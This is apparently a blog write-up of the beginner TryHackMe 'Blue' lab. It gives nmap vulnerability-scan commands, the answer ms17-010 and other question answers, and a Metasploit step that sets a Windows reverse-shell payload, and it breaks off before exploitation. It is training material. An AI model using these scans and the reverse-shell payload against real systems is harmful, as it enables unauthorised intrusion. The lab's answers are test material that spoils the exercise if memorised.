 ```yaml
---
layout: post
title: Blue
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap]
---
```

![Blue](./assets/blue.gif){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

**Difficulty level:** Easy

## Task 1: Recon
Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.


### Questions

Q1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

> "no answer needed"

Q2. How many ports are open with a port number under 1000?

> "3"

Q3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

> "ms17-010"


### MyWalk

Usually go with this scan...

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```
{: .nolineno }

But following the tip on Q1, about using some nmap scripting is very useful in this case:

```bash
nmap -sV -vv --script vuln 10.10.40.46
```
{: .nolineno }

We have now the answers to our questions above.

## Task 2: Gain Access

Exploit the machine and gain a foothold.

### Questions

Q1. Start Metasploit

> "No answer needed"

Q2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

> ""

Q3. Show options and set the one required value. What is the name of this value? (All caps for submission)

> ""

Q4. Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

```bash
set payload windows/x64/shell/reverse_tcp
```
{: .nolineno }

With that done, run the exploit!

Q4. "No answer needed"